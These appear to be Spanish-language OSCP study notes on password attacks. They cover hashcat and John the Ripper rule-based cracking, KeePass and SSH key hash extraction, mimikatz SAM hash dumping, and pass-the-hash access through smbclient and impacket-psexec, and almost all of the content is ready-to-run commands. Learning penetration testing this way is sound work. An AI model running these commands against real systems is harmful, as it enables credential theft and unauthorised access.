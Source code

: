 
## Password attacks

  Crear una regla para hashcat que añada '1@3$5' al final de cada contraseña:

    └─# cat demo.rule
    $1 $@ $3 $$ $5

  Utilizamos la regla para crackear el hash MD5:

    hashcat -m 0 hash.txt /usr/share/wordlists/rockyou.txt -r demo.rule

  Crear una regla para convertir todo a mayúsculas con 'u' y duplicar cada palabara 'd':

    └─# cat demo2.rules 
    u d

  Ejecutamos el ataque:

    └─# hashcat -m 0 hash2.txt /usr/share/wordlists/rockyou.txt -r demo2.rules

  Conseguimos la contraseña:

    19adc0e8921336d08502c039dc297ff8:<REDACTED>

  Reglas de contraseñas:

    https://hashcat.net/wiki/doku.php?id=rule_based_attack

### Keepass

  Buscamos por archivos de Keepass:

    Get-ChildItem -Path C: -Include *.kdbx -File -Recurse -ErrorAction SilentlyContinue

  Nos transferimos el archivo a nuestro local y sacamos el hash con keepass2john:

    └─# keepass2john Database.kdbx > keepass.hash

  Lanzamos hashcat con la regla /rockyou-30000.rule para crackear la contraseña:

    └─# hashcat -m 13400 keepass_hash /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/rockyou-30000.rule --force

### id_rsa

  Para sacar el hash de una clave privada id_rsa:

    ssh2john id_rsa > ssh.hash

  Para pasar las reglas a JTR, tenemos que modificar el archivo custom.rule:

    └─# cat custom.rule 
    [List.Rules:sshRules]
    c $1 $3 $7 $@
    c $1 $3 $7 $$
    c $1 $3 $7 $#

    sh -c 'cat custom.rule >> /etc/john/john.conf'

  Y corremos JTR:

    └─# john --wordlist=ssh.passwords --rules=sshRules ssh_hash

### NTLM

  Si tenemos privilegios de Administador en una máquina Windows, ejecutamos el comando para ver otros usuarios en el sistema a través de PowerShell:

    Get-LocalUser

  Una vez localicemos los nuevos usuarios, corremos mimikatz y ejecutamos:

    privilege::debug

  Con este comando activamos el permiso 'SeDebugPrivilege' que es necesario para este ataque. Después, lanzamos:

    token::elevate

  Para elevar privilegios a SISTEMA.

  Finalmente, para obtener los hashes:

    lsadump::sam

Una vez tenemos el hash, buscamos en hashcat el modo de crackeo:

![image](https://github.com/loqasto/OSCP/assets/111526713/f9b028e5-0d0e-4e5a-a8f0-1156c3ac3d84)

En este caso, el modo es 1000, por lo tanto:

    └─# hashcat -m 1000 nelly.hash /usr/share/wordlists/rockyou.txt

Y obtenemos la contraseña en texto plano.

### PassTheHash

  Conectar a compartido por smbclient con PtH:

    smbclient \\\\192.168.50.212\\secrets -U Administrator --pw-nt-hash 7a38310ea6f0027ee955abed1762964b

  Obtener shell con psexec a través de PtH:

    impacket-psexec -hashes 00000000000000000000000000000000:7a38310ea6f0027ee955abed1762964b Administrator@192.168.50.212
